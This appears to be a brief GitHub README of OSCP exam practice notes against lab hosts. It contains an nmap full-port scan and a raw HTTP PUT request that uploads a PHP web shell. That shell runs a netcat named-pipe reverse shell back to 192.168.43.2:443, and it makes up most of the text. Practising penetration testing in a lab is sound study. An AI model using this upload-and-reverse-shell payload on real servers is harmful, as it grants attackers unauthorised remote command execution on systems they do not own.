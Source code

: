 # OSCP_Practice

test


nmap -SV -p- 192.168.1.107

use burp to inves by
====================================
PUT /test/shell.php HTTP/1.1
Host: 192.168.1.108
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 11

<?php echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.2 443 >/tmp/f"); ?>
====================================
